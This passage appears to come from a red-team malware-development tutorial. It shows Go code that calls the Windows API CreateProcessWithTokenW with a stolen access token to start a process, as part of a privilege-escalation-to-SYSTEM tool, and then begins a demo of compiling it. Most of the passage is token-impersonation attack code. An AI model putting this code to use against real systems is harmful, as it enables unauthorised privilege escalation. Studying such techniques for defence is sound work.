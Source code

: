 And finally we create the wanted process with stolen token.

```go
// Define process arguments to be created with token
cmd, _ := syscall.UTF16PtrFromString(command)
si := new(syscall.StartupInfo)
si.Cb = uint32(unsafe.Sizeof(*si))
pi := new(syscall.ProcessInformation)

// Call CreateProcessWithTokenW
_, _, err = CreateProcessWithTokenW.Call(
  uintptr(uintptr(token_handle)),
  uintptr(uint32(0)),
  uintptr(unsafe.Pointer(nil)),
  uintptr(unsafe.Pointer(cmd)),
  uintptr(uint32(CREATE_NEW_CONSOLE|CREATE_NEW_PROCESS_GROUP)),
  uintptr(unsafe.Pointer(nil)),
  uintptr(unsafe.Pointer(nil)),
  uintptr(unsafe.Pointer(si)),
  uintptr(unsafe.Pointer(pi)),
)

if err != syscall.Errno(0) { // Handle error
  log.Fatalf("CreateProcessWithTokenW failed: %s\n", err)
}
```

Before finishing I would also like to add some verbose so if we get an error we can specify `-v` parameter to see which API call failed. They're minor changes so I won't revise them.

The final code is really long so take a look at it by yourself [here](https://github.com/D3Ext/malware-practices/tree/main/MalwareDevelopment/11-PrivescGetSystem). Now let's test it out.

# Demo

Firstly we compile the code

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice11/compile.png" alt="pic">

And then we transfer it to a Windows testing machine.
